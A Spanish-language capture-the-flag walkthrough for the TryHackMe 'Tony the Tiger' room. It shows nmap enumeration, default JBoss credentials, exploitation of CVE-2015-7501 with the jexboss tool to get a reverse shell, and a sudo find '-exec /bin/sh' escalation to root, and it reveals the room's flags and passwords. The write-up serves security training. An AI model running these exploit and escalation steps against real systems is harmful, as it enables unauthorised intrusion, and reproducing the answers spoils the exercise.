







`Tony the tiger` es una maquina en la que tendremos que explotar una vulnerabiliddad que es`cve-2015-7501` para aceder a la maquima víctima y enumerar las notas que dejo el usuario para obtener las credenciales, luego abusar de los permisos `SUID` del binario `find`.


- Link [tonythetiger](https://tryhackme.com/room/tonythetiger)

- Created by  [cmnatic](https://tryhackme.com/p/cmnatic)

# Walkthrough

## Enumeración
---

### Escaneo de puertos

Empezamos con nuestra herramienta preferida `nmap` para enumerar los puertos abiertos 

```java
❯ nmap -p- --open --min-rate 1000 -vvv [IP-VICTIM] -Pn -n  -oG allportsScan
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack
80/tcp   open  http           syn-ack
1090/tcp open  ff-fms         syn-ack
1091/tcp open  ff-sm          syn-ack
1098/tcp open  rmiactivation  syn-ack
1099/tcp open  rmiregistry    syn-ack
3873/tcp open  fagordnc       syn-ack
4446/tcp open  n1-fwp         syn-ack
4712/tcp open  unknown        syn-ack
4713/tcp open  pulseaudio     syn-ack
5445/tcp open  smbdirect      syn-ack
5455/tcp open  apc-5455       syn-ack
5500/tcp open  hotline        syn-ack
5501/tcp open  fcp-addr-srvr2 syn-ack
8009/tcp open  ajp13          syn-ack
8080/tcp open  http-proxy     syn-ack
8083/tcp open  us-srv         syn-ack
```

Expliquemos un poco mas de los parametros de nmap:

`-p-`: Escanea todos los puertos, desde el puerto 1 hasta el puerto 65535. La opción -p- es equivalente a especificar -p 1-65535.

`--open`: Muestra solo los puertos abiertos en los resultados del escaneo. Esto filtra la salida para mostrar solo los puertos que están actualmente accesibles.

`--min-rate 1000`: Establece la velocidad mínima de envío de paquetes a 1000 por segundo. Esto puede aumentar la velocidad del escaneo, pero también puede aumentar la detección por parte de sistemas de prevención de intrusiones.

`-vvv`: Habilita la verbosidad máxima, lo que significa que se mostrará una salida detallada del escaneo.
[IP-VICTIM]: Sustituye esto con la dirección IP del objetivo que deseas escanear.

`-Pn`: Desactiva la detección de hosts para que no realice un ping de descubrimiento de hosts antes del escaneo. Útil cuando el host objetivo está configurado para no responder a pings.

`-n`: Desactiva la resolución DNS durante el escaneo para acelerar el proceso y evitar la dependencia de servicios de resolución DNS.

`-oG allportsScan`: Guarda la salida del escaneo en formato "greppable". Esto crea un archivo llamado allportsScan que puede ser analizado posteriormente con herramientas como grep para extraer información específica.

Ahora, conociendo los puertos abiertos procedemos a enumerar los servicios.

```java
❯ nmap -p22,80,1090,1091,1098,1099,3873,4446,4712,4713,5445,5455,5500,5501,8009,8080,8083 -sC -sV -Pn -vvv [IP-VICTIM] -oN servicesScan
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:97:8c:b9:74:d0:f3:9e:fe:f3:a5:ea:f8:a9:b5:7a (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAJPG6mnFmBQ6zzd48LN35Vr7O1QkkSffOIQQl6+I5OKm/mqA4RK7QEgDEsFRgDcAaZDCv57bLTAEet7u5+Zxl7tK1NYS6PoJKP/V/SUL8HvdCjN7ECGgZbNl1/lD2oN4Ht0vLBiWOTNf+iBYAmszAuQuoFeQukynY+Yp6Vzm+deBAAAAFQCh+o/BZzN10pb6E32v/9UtFQVZYwAAAIBaQDnXWFqzvVdR41SJKzIHGovDvTeYRkriEOY/qsul50Qa6wUXBKj6g4Ew6E5JyqmA0OTtqCaduEVZghWFZC1xgfIMWDF0jrWLoeulkHS+66e6w4RTNYhkaQFReNQqYutiYLVItPYCGYTx6EjkenuOrjtBbDuKtzAqqCr5AwFjoAAAAIAdqC5XcUGUTNz60yiAP68wM4aw1QHCvR5uUU9rjc06XHjoddKpIGSoR99yxMh7iRZ1TrBRb3mvIdnJ5G6DcH9xgyvHz8Fc1VcBndlh7Ie18Bigs1hj5DmM7H73zB2U2zzoy8Kk8uYn9EprmEKQIqVKGLhH4zspFxBstbD3Ti9Xhg==
|   2048 33:a4:7b:91:38:58:50:30:89:2d:e4:57:bb:07:bb:2f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDJTMdZ85+2MMzpdBPGCdSABGMN18/c4vhXcagSDSsQmLGhObXdYue1DcrmPR2QVJV7aRV9qYYEymcJdwNcCTul7C+gpyj4pD93L6Uxcsi7O3raxysBwWbrIrIYf7n8zKmOZcZeMbweXfgU6eXfnVHwivPkzTivg5uc7HdEfDHfDzE+2ScejK8+pQtkv2pGpXN8WC1/l0LO2YWgJ6cq1LkOkgTTqboi1wTsHhjUr7Ri+LAhiIHmAqmGWMH1q3p8y2NM+Hn4q1Po8Z4qOkl0u3XUm6iX/XWTXkCKTHFLnG33FbLQcMLJKPHP0azNw43UOz7EyVLQEFXSw60qsIdxuu55
|   256 21:01:8b:37:f5:1e:2b:c5:57:f1:b0:42:b7:32:ab:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAmZ/g9gjkYbkCJ0BOQ7aNFijuj76pmv22y9wcRJJ3W0+lZkserfSgieJMHkRJcYRYlwRS804F9XM3cqr1tjNA0=
|   256 f6:36:07:3c:3b:3d:71:30:c4:cd:2a:13:00:b5:25:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDUpCopvQzPXtEJ8L/lxYpJzOrcLLkU67fx71+Izsx6U
80/tcp   open  http        syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Tony&#39;s Blog
|_http-generator: Hugo 0.66.0
1090/tcp open  java-rmi    syn-ack Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack Java RMI
1098/tcp open  java-rmi    syn-ack Java RMI
1099/tcp open  java-object syn-ack Java Object Serialization
| fingerprint-strings: 
|   NULL: 
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     #http://thm-java-deserial.home:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpwA
|     UnicastRef2
|_    thm-java-deserial.home
3873/tcp open  java-object syn-ack Java Object Serialization
4446/tcp open  java-object syn-ack Java Object Serialization
4712/tcp open  msdtc       syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp open  pulseaudio? syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    126a
5445/tcp open  smbdirect?  syn-ack
5455/tcp open  apc-5455?   syn-ack
5500/tcp open  hotline?    syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, SSLSessionReq: 
|     CRAM-MD5
|     NTLM
|     GSSAPI
|     DIGEST-MD5
|     thm-java-deserial
|   GenericLines, NULL, RTSPRequest: 
|     NTLM
|     CRAM-MD5
|     DIGEST-MD5
|     GSSAPI
|     thm-java-deserial
|   GetRequest: 
|     GSSAPI
|     NTLM
|     CRAM-MD5
|     DIGEST-MD5
|     thm-java-deserial
|   HTTPOptions: 
|     NTLM
|     CRAM-MD5
|     GSSAPI
|     DIGEST-MD5
|     thm-java-deserial
|   Help: 
|     CRAM-MD5
|     DIGEST-MD5
|     NTLM
|     GSSAPI
|     thm-java-deserial
|   Kerberos: 
|     DIGEST-MD5
|     NTLM
|     CRAM-MD5
|     GSSAPI
|     thm-java-deserial
|   RPCCheck: 
|     NTLM
|     GSSAPI
|     CRAM-MD5
|     DIGEST-MD5
|     thm-java-deserial
|   TLSSessionReq: 
|     GSSAPI
|     DIGEST-MD5
|     CRAM-MD5
|     NTLM
|     thm-java-deserial
|   TerminalServerCookie: 
|     DIGEST-MD5
|     GSSAPI
|     CRAM-MD5
|     NTLM
|_    thm-java-deserial
5501/tcp open  tcpwrapped  syn-ack
8009/tcp open  ajp13       syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        syn-ack Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
5 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port1099-TCP:V=7.94%I=7%D=11/10%Time=654E6A53%P=x86_64-pc-linux-gnu%r(N
SF:ULL,17B,"\xac\xed\0\x05sr\0\x19java\.rmi\.MarshalledObject\|\xbd\x1e\x9
SF:7\xedc\xfc>\x02\0\x03I\0\x04hash\[\0\x08locBytest\0\x02\[B\[\0\x08objBy
SF:tesq\0~\0\x01xp\xf3{\xa8\?ur\0\x02\[B\xac\xf3\x17\xf8\x06\x08T\xe0\x02\
SF:0\0xp\0\0\x004\xac\xed\0\x05t\0#http://thm-java-deserial\.home:8083/q\0
SF:~\0\0q\0~\0\0uq\0~\0\x03\0\0\0\xcd\xac\xed\0\x05sr\0\x20org\.jnp\.serve
SF:r\.NamingServer_Stub\0\0\0\0\0\0\0\x02\x02\0\0xr\0\x1ajava\.rmi\.server
SF:\.RemoteStub\xe9\xfe\xdc\xc9\x8b\xe1e\x1a\x02\0\0xr\0\x1cjava\.rmi\.ser
SF:ver\.RemoteObject\xd3a\xb4\x91\x0ca3\x1e\x03\0\0xpwA\0\x0bUnicastRef2\0
SF:\0\x16thm-java-deserial\.home\0\0\x04J\\T\x8c\xb4\x84\xe3n\n'\xf6\xbd\x
SF:ae\0\0\x01\x8b\xbaI\x92\xdf\x80\x02\0x");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3873-TCP:V=7.94%I=7%D=11/10%Time=654E6A59%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4446-TCP:V=7.94%I=7%D=11/10%Time=654E6A59%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4713-TCP:V=7.94%I=7%D=11/10%Time=654E6A59%P=x86_64-pc-linux-gnu%r(N
SF:ULL,5,"126a\n")%r(GenericLines,5,"126a\n")%r(GetRequest,5,"126a\n")%r(H
SF:TTPOptions,5,"126a\n")%r(RTSPRequest,5,"126a\n")%r(RPCCheck,5,"126a\n")
SF:%r(DNSVersionBindReqTCP,5,"126a\n")%r(DNSStatusRequestTCP,5,"126a\n")%r
SF:(Help,5,"126a\n")%r(SSLSessionReq,5,"126a\n")%r(TerminalServerCookie,5,
SF:"126a\n")%r(TLSSessionReq,5,"126a\n")%r(Kerberos,5,"126a\n")%r(SMBProgN
SF:eg,5,"126a\n")%r(X11Probe,5,"126a\n")%r(FourOhFourRequest,5,"126a\n")%r
SF:(LPDString,5,"126a\n")%r(LDAPSearchReq,5,"126a\n")%r(LDAPBindReq,5,"126
SF:a\n")%r(SIPOptions,5,"126a\n")%r(LANDesk-RC,5,"126a\n")%r(TerminalServe
SF:r,5,"126a\n")%r(NCP,5,"126a\n")%r(NotesRPC,5,"126a\n")%r(JavaRMI,5,"126
SF:a\n")%r(WMSRequest,5,"126a\n")%r(oracle-tns,5,"126a\n")%r(ms-sql-s,5,"1
SF:26a\n")%r(afp,5,"126a\n")%r(giop,5,"126a\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5500-TCP:V=7.94%I=7%D=11/10%Time=654E6A59%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4B,"\0\0\0G\0\0\x01\0\x03\x04\0\0\0\x03\x03\x04\0\0\0\x02\x01\x04NT
SF:LM\x01\x08CRAM-MD5\x01\nDIGEST-MD5\x01\x06GSSAPI\x02\x11thm-java-deseri
SF:al")%r(GenericLines,4B,"\0\0\0G\0\0\x01\0\x03\x04\0\0\0\x03\x03\x04\0\0
SF:\0\x02\x01\x04NTLM\x01\x08CRAM-MD5\x01\nDIGEST-MD5\x01\x06GSSAPI\x02\x1
SF:1thm-java-deserial")%r(GetRequest,4B,"\0\0\0G\0\0\x01\0\x03\x04\0\0\0\x
SF:03\x03\x04\0\0\0\x02\x01\x06GSSAPI\x01\x04NTLM\x01\x08CRAM-MD5\x01\nDIG
SF:EST-MD5\x02\x11thm-java-deserial")%r(HTTPOptions,4B,"\0\0\0G\0\0\x01\0\
SF:x03\x04\0\0\0\x03\x03\x04\0\0\0\x02\x01\x04NTLM\x01\x08CRAM-MD5\x01\x06
SF:GSSAPI\x01\nDIGEST-MD5\x02\x11thm-java-deserial")%r(RTSPRequest,4B,"\0\
SF:0\0G\0\0\x01\0\x03\x04\0\0\0\x03\x03\x04\0\0\0\x02\x01\x04NTLM\x01\x08C
SF:RAM-MD5\x01\nDIGEST-MD5\x01\x06GSSAPI\x02\x11thm-java-deserial")%r(RPCC
SF:heck,4B,"\0\0\0G\0\0\x01\0\x03\x04\0\0\0\x03\x03\x04\0\0\0\x02\x01\x04N
SF:TLM\x01\x06GSSAPI\x01\x08CRAM-MD5\x01\nDIGEST-MD5\x02\x11thm-java-deser
SF:ial")%r(DNSVersionBindReqTCP,4B,"\0\0\0G\0\0\x01\0\x03\x04\0\0\0\x03\x0
SF:3\x04\0\0\0\x02\x01\x08CRAM-MD5\x01\x04NTLM\x01\x06GSSAPI\x01\nDIGEST-M
SF:D5\x02\x11thm-java-deserial")%r(DNSStatusRequestTCP,4B,"\0\0\0G\0\0\x01
SF:\0\x03\x04\0\0\0\x03\x03\x04\0\0\0\x02\x01\x08CRAM-MD5\x01\x04NTLM\x01\
SF:x06GSSAPI\x01\nDIGEST-MD5\x02\x11thm-java-deserial")%r(Help,4B,"\0\0\0G
SF:\0\0\x01\0\x03\x04\0\0\0\x03\x03\x04\0\0\0\x02\x01\x08CRAM-MD5\x01\nDIG
SF:EST-MD5\x01\x04NTLM\x01\x06GSSAPI\x02\x11thm-java-deserial")%r(SSLSessi
SF:onReq,4B,"\0\0\0G\0\0\x01\0\x03\x04\0\0\0\x03\x03\x04\0\0\0\x02\x01\x08
SF:CRAM-MD5\x01\x04NTLM\x01\x06GSSAPI\x01\nDIGEST-MD5\x02\x11thm-java-dese
SF:rial")%r(TerminalServerCookie,4B,"\0\0\0G\0\0\x01\0\x03\x04\0\0\0\x03\x
SF:03\x04\0\0\0\x02\x01\nDIGEST-MD5\x01\x06GSSAPI\x01\x08CRAM-MD5\x01\x04N
SF:TLM\x02\x11thm-java-deserial")%r(TLSSessionReq,4B,"\0\0\0G\0\0\x01\0\x0
SF:3\x04\0\0\0\x03\x03\x04\0\0\0\x02\x01\x06GSSAPI\x01\nDIGEST-MD5\x01\x08
SF:CRAM-MD5\x01\x04NTLM\x02\x11thm-java-deserial")%r(Kerberos,4B,"\0\0\0G\
SF:0\0\x01\0\x03\x04\0\0\0\x03\x03\x04\0\0\0\x02\x01\nDIGEST-MD5\x01\x04NT
SF:LM\x01\x08CRAM-MD5\x01\x06GSSAPI\x02\x11thm-java-deserial");
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

Expliquemos mas los parametros de `nmap`:

`-p22,80,1090,1091,1098,1099,3873,4446,4712,4713,5445,5455,5500,5501,8009,8080,8083`: Especifica los puertos que se van a escanear. En este caso, los puertos seleccionados son 22 (SSH), 80 (HTTP), 1090, 1091, 1098, 1099, 3873, 4446, 4712, 4713, 5445, 5455, 5500, 5501, 8009, 8080 y 8083.

`-sC`: Habilita la opción de scripts de servicio. nmap ejecutará scripts de detección y enumeración de servicios en los puertos abiertos.

`-sV`: Intenta determinar la versión de los servicios que se están ejecutando en los puertos abiertos.

`-Pn`: Desactiva la detección de hosts para que no realice un ping de descubrimiento de hosts antes del escaneo. Útil cuando el host objetivo está configurado para no responder a pings.

`-vvv`: Habilita la verbosidad máxima, lo que significa que se mostrará una salida detallada del escaneo.

`[IP-VICTIM]`: Sustituye esto con la dirección IP del objetivo que deseas escanear.

`-oN servicesScan`: Guarda la salida del escaneo en un archivo llamado servicesScan. Este archivo contendrá información detallada sobre los servicios y puertos encontrados.

### Puerto 80

Visitamos el sitio web y encontramos el siguiente contenido


En la imagen, haciendo uso de strings observamos nuestra primera flag 


```java
❯ strings be2sOV9.jpg| grep 'THM'
}THM{Tony_Sure_Loves_Frosted_Flakes}
'THM{Tony_Sure_Loves_Frosted_Flakes}(dQ
```

### Puerto 8080

En este puerto encontramos un servicio `jboss` 



Enumeramos este sitio, en la cual encotraremos un panel de login `http://[IP-VICTIM]:8080/admin-console/login.seam` 



Que tiene las contraseñas por defecto: `admin: admin`. Asi podemos iniciar sesión



## Explotación

Pero no hay mucho que hacer en el panel. Enumerando damos con la versión y descubrimos que es una versión vulnerable `cve-2015-7501`.

La herramienta que usaremos para explotar lo puedes encontrar en [https://github.com/joaomatosf/jexboss](https://github.com/joaomatosf/jexboss) 

Ejecutamos el exploit agregando los parametros de la máquina victima 

```java
❯ python jexboss.py -host http://[IP-VICTIM]:8080
```



elegimos la segunda opción, que nos pedira la `ip` y `puerto` donde iniciamos el `ncat` ala escucha

## Escalada de privilegios
### Usuario - cmnatic



Enumerando el sistema y el directorio del usuario, encontraremos unas notas que dejo el usario.

```
cmnatic@thm-java-deserial:~$ cat to-do.txt                       
cat to-do.txt
I like to keep a track of the various things I do throughout the day.
Things I have done today:
 - Added a note for JBoss to read for when he next logs in.
 - Helped Tony setup his website!
 - Made sure that I am not an administrator account
Things to do:
 - Update my Java! I've heard it's kind of in-secure, but it's such a headache to update. Grrr!

```

```
cmnatic@thm-java-deserial:/home/jboss$ cat note
cat note
Hey JBoss!
Following your email, I have tried to replicate the issues you were having with the system.
However, I don't know what commands you executed - is there any file where this history is stored that I can access?
Oh! I almost forgot... I have reset your password as requested (make sure not to tell it to anyone!)
Password: likeaboss

```

En la nota podemos ver una credencial que es para `jboss`, por lo que haremos uso de este para loguearnos como `jboss`

### Usuario - jboss



El usuario `jboss` tiene permisos de ejecutar como sudo el binario `find`, usaremos este binario para acceder como `root`

```java
jboss@thm-java-deserial:~$ sudo -l
Matching Defaults entries for jboss on thm-java-deserial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User jboss may run the following commands on thm-java-deserial:                                                                                                                            
    (ALL) NOPASSWD: /usr/bin/find
jboss@thm-java-deserial:~$     
```

### Usuario - root

Ejecutando `sudo find . -exec /bin/sh \; -quit` obtendremos acederemos a una shell como `root` 



En el directorio de `root` encotraremos su contraseña, pero esta encriptada. Para obtener la contraseña en texto plano tendremos que crackearla.

```java
root : zxcvbnm123456789
```

¡VAMOS!

Happy hacking :)